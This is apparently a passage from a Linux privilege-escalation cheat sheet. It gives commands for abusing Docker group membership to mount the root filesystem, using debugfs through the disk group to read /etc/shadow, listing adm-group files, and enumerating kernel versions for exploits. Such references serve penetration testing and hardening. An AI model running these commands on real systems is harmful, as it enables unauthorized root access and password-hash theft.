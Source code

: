- openssl=ep (Exploit: https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)

## Groups

### Docker Group

Mount the `/` to container

```bash
docker pull alpine
docker run -v /:/mnt -it alpine /bin/sh
```

### Disk Group

!!! info
The disk group can manage disks.

Find where the root (`/`) mounted

```bash
df -h | grep "/$"
```

```bash
$ debugfs /dev/sda5
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cat /etc/shadow
```

### Adm Group

!!! info
Group adm have permissions to read log files located inside /var/log/

```
find / -group adm 2>/dev/null | grep -v 'proc' | xargs ls -l 2>/dev/null
```

## Kernel exploit

```bash
uname -a
```

```bash
cat /etc/issue
```

```bash
cat /etc/*-release
```
